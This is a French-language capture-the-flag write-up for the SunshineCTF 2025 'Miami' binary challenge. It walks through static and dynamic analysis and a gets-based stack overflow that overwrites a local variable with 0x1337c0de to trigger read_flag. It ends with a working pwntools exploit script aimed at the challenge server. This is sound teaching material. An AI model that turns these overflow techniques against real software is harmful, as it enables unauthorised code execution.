 # [SunshineCTF 2025] Miami - Write-up

## Informations sur le Challenge

- **CTF :** SunshineCTF 2025
- **Challenge :** Miami
- **Catégorie :** Pwn / Binary Exploitation

## 1. Analyse Statique

La première étape consiste à analyser le binaire `miami` sans l'exécuter pour recueillir des informations cruciales.

### Vérification des protections

La commande `checksec` nous donne un aperçu des mesures de sécurité compilées dans le binaire.

```bash
$ checksec miami
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
```

Points importants à noter :
- **No canary found** : C'est une information capitale. L'absence de canari sur la pile indique une vulnérabilité potentielle à un buffer overflow classique, car aucune valeur de protection n'est placée avant l'adresse de retour.
- **NX enabled** : Nous ne pourrons pas exécuter de shellcode directement sur la pile.
- **PIE enabled** : Les adresses du binaire sont randomisées, ce qui complique les attaques de type *ret2libc* ou l'appel direct à des adresses statiques.

### Recherche de chaînes de caractères

L'outil `strings` permet d'extraire les chaînes de caractères lisibles, ce qui peut révéler des indices sur les fonctionnalités du programme.

```bash
$ strings miami
...
flag.txt
Enter Dexter's password:
Invalid credentials!
Access granted...
vuln
read_flag
...
```

Cette sortie est très prometteuse. Nous voyons :
- `flag.txt` : Le nom du fichier que nous cherchons à lire.
- `vuln` : Le nom d'une fonction, probablement là où se trouve la faille.
- `read_flag` : Le nom d'une fonction qui, très certainement, lit et affiche le contenu de `flag.txt`. Notre objectif est donc d'arriver à exécuter cette fonction.

## 2. Analyse Dynamique et Découverte de la Vulnérabilité

En exécutant le programme, il nous demande un mot de passe. Sachant qu'il n'y a pas de canari et que la fonction `gets` est souvent utilisée dans ce type de challenge, l'hypothèse d'un simple buffer overflow pour écraser l'adresse de retour (technique *ret2win*) est la première à tester.

Cependant, en utilisant GDB avec un motif cyclique (par exemple, généré avec `cyclic(100)`), on constate que le programme plante bien, mais le pointeur d'instruction (`$RIP`) ne pointe pas sur notre chaîne. Il reste à l'intérieur de la fonction `vuln`.

```gdb
(gdb) r
Starting program: ./miami
Enter Dexter's password: [long pattern here]

Program received signal SIGSEGV, Segmentation fault.
0x00005555555553b5 in vuln ()
(gdb) info registers rip
rip            0x5555555553b5      0x5555555553b5 <vuln+179>
```

Cela signifie que le crash se produit *avant* que la fonction ne retourne. L'hypothèse du *ret2win* est donc incorrecte. Pour comprendre la cause, il faut examiner le code assembleur de la fonction `vuln`.

## 3. Explication de la Vulnérabilité : La Porte Dérobée

Le désassemblage de la fonction `vuln` dans GDB révèle le véritable mécanisme du challenge.

```gdb
(gdb) disassemble vuln
```

Voici les instructions clés :

1.  **Initialisation d'une variable locale :**
    ```asm
    0x000055555555530e <+12>:    movl   $0xdeadbeef,-0x4(%rbp)
    ```
    Une variable sur la pile, à l'adresse `-0x4(%rbp)`, est initialisée avec la valeur `0xdeadbeef`.

2.  **Lecture de l'entrée utilisateur :**
    ```asm
    0x0000555555555370 <+110>:   lea    -0x50(%rbp),%rax
    0x000055555555537c <+122>:   call   <gets@plt>
    ```
    Notre entrée est lue via `gets` et stockée dans un buffer à l'adresse `-0x50(%rbp)`.

3.  **La comparaison secrète :**
    ```asm
    0x0000555555555381 <+127>:   cmpl   $0x1337c0de,-0x4(%rbp)
    0x0000555555555388 <+134>:   je     0x55555555539b <vuln+153>
    ```
    C'est le cœur du challenge. Le programme compare la variable à `-0x4(%rbp)` avec une valeur "magique" : `0x1337c0de`. Si la comparaison est égale (`je` pour *Jump if Equal*), le programme saute à une autre partie du code.

4.  **L'appel à `read_flag` :**
    ```asm
    ; Code atteint après le saut
    0x00005555555553af <+173>:   call   0x555555555209 <read_flag>
    ```
    Si le saut est effectué, la fonction `read_flag` est appelée !

Le challenge n'est donc pas une exploitation de type *ret2win*, mais une **porte dérobée logique**. L'objectif est d'utiliser le buffer overflow provoqué par `gets` pour écraser la variable initialement à `0xdeadbeef` avec la valeur `0x1337c0de`.

## 4. Exploitation

Pour construire notre payload, nous devons calculer la distance entre le début de notre buffer et la variable cible.

-   Début du buffer : `-0x50` par rapport à `$rbp`.
-   Variable cible : `-0x4` par rapport à `$rbp`.
-   Distance : `0x50 - 0x4 = 0x4C` (hexadécimal), soit **76 octets**.

Notre payload final sera donc :
1.  76 octets de remplissage (padding).
2.  La valeur magique `0x1337c0de`, encodée sur 4 octets en *little-endian*.

## 5. Script de Solution

Le script `pwntools` suivant automatise l'envoi de ce payload au service distant pour récupérer le flag.

```python
from pwn import *

# Connexion au service distant du CTF
# Pour tester en local, utiliser : p = process('./miami')
p = remote('chal.sunshinectf.games', 25601)

# L'offset calculé pour atteindre la variable cible sur la pile
offset = 76

# La valeur magique qui déclenche la porte dérobée.
# p32() l'encode sur 4 octets (32 bits) au format little-endian,
# ce qui correspond à l'instruction `cmpl` (compare long).
magic_value = p32(0x1337c0de)

# Construction du payload final
payload = b'A' * offset + magic_value

# Attendre le prompt "Enter Dexter's password:"
p.recvuntil(b':')

# Envoyer le payload
p.sendline(payload)

# Passer en mode interactif pour lire la sortie et récupérer le flag
p.interactive()

```

## Conclusion

Ce challenge était une excellente introduction aux vulnérabilités qui sortent des sentiers battus. Au lieu d'une exploitation classique, il fallait analyser attentivement le code assembleur pour découvrir une porte dérobée logique. La leçon principale est de ne jamais faire d'hypothèses et de toujours vérifier le comportement du programme avec un désassembleur.